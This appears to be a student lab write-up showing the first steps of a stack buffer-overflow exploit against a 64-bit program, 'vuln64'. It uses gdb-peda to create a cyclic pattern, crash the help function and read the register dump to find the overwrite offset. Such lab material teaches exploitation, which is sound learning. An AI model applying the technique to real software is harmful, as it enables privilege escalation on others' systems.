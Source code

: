 Open up gdb peda and create a pattern string which will be used to discover the offset of our BoF.	

```sh
┌──(student㉿kali)-[~/Desktop/assign2/app]
└─$ gdb vuln64
GNU gdb (Debian 10.1-2) 10.1.90.20210103-git
Copyright (C) 2021 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from vuln64...
(No debugging symbols found in vuln64)
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```



Run the program using the 'h' as an argument switch. Copy the patter string into the vulnerable help function and hit enter. We will immediately see a SIGSEGV segmentation fault which indicates that the program has attempted to write outside of its allocated memory. 

```sh
gdb-peda$ r h
Starting program: /home/student/Desktop/assign2/app/vuln64 h
This is an admin tools to run programs with elevated privileges
Press Enter to return...
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x7ffc7b841f20 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RBX: 0x0 
RCX: 0x7f42fb26d980 --> 0xfbad2288 
RDX: 0x0 
RSI: 0x1e536b1 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL\n")
RDI: 0x7f42fb270680 --> 0x0 
RBP: 0x4147414131414162 ('bAA1AAGA')
RSP: 0x7ffc7b841f58 ("AcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
RIP: 0x4012a6 (<helpCommand+55>:        ret)
R8 : 0x7ffc7b841f20 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")
R9 : 0x0 
R10: 0x6e ('n')
R11: 0x246 
R12: 0x4010a0 (<_start>:        xor    ebp,ebp)
R13: 0x0 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]

```